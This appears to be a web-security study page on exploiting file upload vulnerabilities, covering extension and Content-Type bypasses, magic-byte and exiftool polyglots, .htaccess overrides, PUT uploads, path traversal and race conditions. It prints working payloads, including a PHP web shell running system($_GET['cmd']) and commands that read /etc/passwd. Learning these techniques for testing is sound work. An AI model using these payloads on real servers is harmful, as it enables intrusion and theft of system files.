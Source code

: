 ```yaml
---
title: "File upload vulnerabilities"
weight: 9
description: "Learn how file upload vulnerabilities can be exploited, including flawed validation, server misconfigurations, race conditions, and techniques for bypassing security measures."
---
```


# File upload vulnerabilities

{{< hint style=warning >}}
Servers typically won't execute files unless they have been configured to do so. In some cases the contents of the file may still be served as plain text.
{{< /hint >}}

## Flawed validation of FU

### Content-Type

{{< details summary="multipart form-data" >}}

When we upload binary files (like png) the content type multipart/form-data is preferred. The message body is split into separate parts for each of the form's inputs. Each part contains a `Content-Disposition` header and may also contain their own `Content-Type` header which tells the server the MIME type of the data that was submitted using this input

{{< /details >}}

Change `Content-Type` to an allow MIME type. (e.g. `image/jpeg`)

### Blacklisted extensions

* Change extensions

```sh
.php
.php3
.php4
.php5
.phtml
.phar
```

* Obfuscating file extensions

```sh
exploit.pHp
exploit.php.jpg
exploit.php.
exploit%2Ephp
exploit.asp;.jpg
exploit.asp%00.jpg
exploit.p.phphp
```

### File content validation

More secure servers try to verify that the contents of the file actually match what is expected.

**[1] Magic number: certain file types may always contain a specific sequence of bytes in their header or footer**

| File     | Hex Signature                       | ISO 8859-1   |
| -------- | ----------------------------------- | ------------ |
| PNG      | 89 50 4E 47 0D 0A 1A 0A             | ‰PNG␍␊␚␊     |
| JPG/JPEG | FF D8 FF EE                         | ÿØÿî         |
| JPG/JPEG | FF D8 FF E0                         | ÿØÿà         |
| JPG/JPEG | FF D8 FF E0 00 10 4A 46 49 46 00 01 | ÿØÿà␀␐JFIF␀␁ |
| PDF      | 25 50 44 46 2D                      | %PDF-        |

Payload example:

```php
ÿØÿî
<?php echo system($_GET['cmd']); ?>
```

***

**[2] Polyglot (on exiftool): verify certain intrinsic properties of an image, such as its dimensions.**

Create a polyglot JPEG file containing malicious code within its metadata

```sh
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```

This works if you can upload a php extension file. This works why you have a real image file (that bypass restrictions) but when you open the image it's executed as php script.

## Overriding server configuration

Many servers allow configuration files in directories to override global settings. Web servers use them when present, but they're not accessible via HTTP requests.

If the file extension is blacklisted, you might trick the server into mapping a custom file extension to an executable MIME type.

* Apache servers -> `.htaccess`
* Example: `AddType application/x-httpd-php .<EXTENSION>`

## PUT method

```http
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```

## FU + PT

Defense: Servers block script execution in the file upload folder. Web servers use the filename field in `multipart/form-data` requests to determine the file's name and location. -> Change filename field combining path traversal

```http
Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
```

{{< hint style=tips >}}
**Tip**: pay attention to stripping. In that case, obfuscate with `filename="..%2fexploit.php"`.
{{< /hint >}}

## FU without RCE

If you can upload HTML files or SVG images, you can use tags to create stored XSS payloads. If the server parses XML-based files like `.doc` or `.xls`, it could be a vector for XXE injection attacks.

## FU + Race Conditions

Some websites upload files to the main filesystem and remove them if they fail validation. This is common in sites using anti-virus software to check for malware. During the short time the file exists on the server, an attacker could potentially execute it.

* Race conditions
* Difficult to detect

### Race conditions in URL-based file uploads

If a file is loaded into a temporary directory with a randomized name, it should be impossible for an attacker to exploit any race conditions.

* If the randomized directory name is generated using pseudo-random functions like PHP's `uniqid()`, it can potentially be brute-forced.
  * Try to extend the amount of time taken to process the file by uploading a larger file
* If it is processed in chunks, you can potentially take advantage of this by creating a malicious file with the payload at the start, followed by a large number of arbitrary padding bytes.
